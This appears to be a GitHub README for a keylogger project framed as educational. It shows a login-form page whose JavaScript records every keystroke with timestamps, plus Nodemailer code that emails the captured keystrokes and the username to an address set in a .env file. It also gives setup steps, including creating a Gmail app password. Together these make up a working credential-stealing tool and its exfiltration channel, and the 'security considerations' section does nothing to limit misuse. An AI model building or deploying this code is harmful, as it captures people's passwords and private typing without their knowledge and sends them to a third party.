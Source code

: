 # 🕵️‍♂️ Keylogger Project

A comprehensive **educational project** demonstrating **client-server communication, event handling, and data processing** in web applications. This implementation focuses on understanding **keystroke capture mechanisms** and **secure data transmission protocols**.

---

## 📌 System Architecture

```mermaid
flowchart TD
    classDef frontend fill:#42A5F5,color:#fff,stroke:#1976D2
    classDef backend fill:#66BB6A,color:#fff,stroke:#388E3C
    classDef storage fill:#FFA726,color:#000,stroke:#F57C00
    
    subgraph Frontend[Frontend Layer]
        UI[Login Form]:::frontend
        KS[Keystroke Capture]:::frontend
        FM[Form Manager]:::frontend
    end
    
    subgraph Backend[Backend Services]
        Server[Express Server]:::backend
        KEYS[Keystroke Processor]:::backend
        Email[Nodemailer Service]:::backend
    end
    
    subgraph Storage[Configuration]
        ENV[.env Configuration]:::storage
    end
    
    UI --> KS
    KS --> FM
    FM --> Server
    Server --> KEYS
    KEYS --> Email
    ENV -.-> Server
    
    subgraph Legend[Component Types]
        F[Frontend Components]:::frontend
        B[Backend Services]:::backend
        S[Storage/Config]:::storage
    end
```

### 🔹 Layers Overview:
- **🔵 Frontend Layer:** Handles user interaction and keystroke capture
- **🟢 Backend Services:** Processes captured data and manages email transmission
- **🟡 Configuration:** Stores environment variables and settings

---

## 📂 Project Structure

```plaintext
📁 project-root/
├── 📄 index.js          # Backend server implementation
├── 📄 script.js         # Frontend keystroke capture
├── 📄 index.html        # Login form interface
├── 📄 keycodes.js       # Key mapping definitions
├── 📄 styles.css        # UI styling
└── 📄 .env             # Environment configuration
```

---

## 🔄 Data Flow Visualization

```mermaid
sequenceDiagram
    participant User
    participant Form as Login Form
    participant KC as Keystroke Capture
    participant FM as Form Manager
    participant Server as Express Server
    participant KP as Keystroke Processor
    participant Email as Nodemailer Service
    
    Note over User,Email: Normal Login Flow
    User->>Form: Enter credentials
    Form->>KC: Capture keystrokes
    KC->>FM: Store captured keys
    User->>FM: Submit form
    FM->>Server: Send credentials + keystrokes
    
    Note over Server,Email: Processing Phase
    Server->>KP: Process keystroke data
    KP->>Email: Prepare email payload
    Email-->>User: Send confirmation email
    
    Note over User,Email: Error Handling
    alt Invalid Credentials
        Server-->>User: Return error message
    else Email Failure
        Email-->>Server: Report delivery error
    end
```

### 🔹 Phases Breakdown:
1. **🔵 Normal Login Flow** – User interaction and data capture
2. **🟢 Processing Phase** – Data handling and transmission
3. **🟡 Error Handling** – Robust fault tolerance mechanisms

---

## 🛠️ Setup Instructions

### 🔹 Clone the Repository
```bash
git clone https://github.com/pranaykumar2/keylogger.git
```

### 🔹 Install Dependencies
```bash
npm install
```

### 🔹 Configure Environment Variables
```plaintext
GMAILFROM=your-from-email@gmail.com
PASSWORD=your-email-password
GMAILTO=your-to-email@gmail.com
PORT=3000
```

### 🔹 Initialize Server
```bash
node index.js
```

---

## 🔍 Implementation Details

### ✏️ Keystroke Capture Mechanism
```javascript
document.addEventListener('keydown', (event) => {
    const keyInfo = {
        keyCode: event.keyCode,
        key: event.key,
        timestamp: new Date().getTime(),
        eventType: 'keydown'
    };
    capturedKeys.push(keyInfo);
});
```

### 📩 Email Transmission System
```javascript
const transporter = nodemailer.createTransport({
    service: 'gmail',
    auth: {
        user: process.env.GMAILFROM,
        pass: process.env.PASSWORD
    }
});

const mailOptions = {
    from: process.env.GMAILFROM,
    to: process.env.GMAILTO,
    subject: 'Keystrokes Log',
    text: `Keystrokes log for user ${username}:
${keysPressedText}`
};
```

---

## 🔐 Security Considerations

✅ **Use environment variables** to store sensitive credentials
✅ **Implement error handling and logging** for robust operations
✅ **Use secure communication protocols** to prevent data leaks
✅ **Regularly update dependencies** to prevent vulnerabilities

---

## 📋 Steps to Setup `APP PASSWORD`

1. Go to your Google Account **App Passwords**: [Google App Passwords](https://myaccount.google.com/apppasswords)
2. Name your app and create the password
3. Copy the generated password and use it in the `.env` file

---

## 📝 Usage Guide

🚀 **Launch the application** at `localhost:3000`
📌 **Enter login credentials** in the form
⌨️ **Type any additional text** while the page is active
📤 **Submit the form** to trigger email transmission

---

## 💻 Technologies Used

🔷 **Frontend:** HTML, CSS, JavaScript  
🔷 **Backend:** Node.js, Express.js  
🔷 **Utilities:** Nodemailer, Body-parser  
🔷 **Development:** Git

---

## 🤝 Contributing Guidelines

- 📌 **Open an issue** before submitting major changes
- 📌 **Follow the existing code style** for consistency
- 📌 **Include comprehensive test cases** when adding features
- 📌 **Document new features** thoroughly in the README

---

## 📜 License

Released under the **MIT License**. See `LICENSE` file for details.

---

### 🎯 **Enjoy coding and stay secure! 🔐**

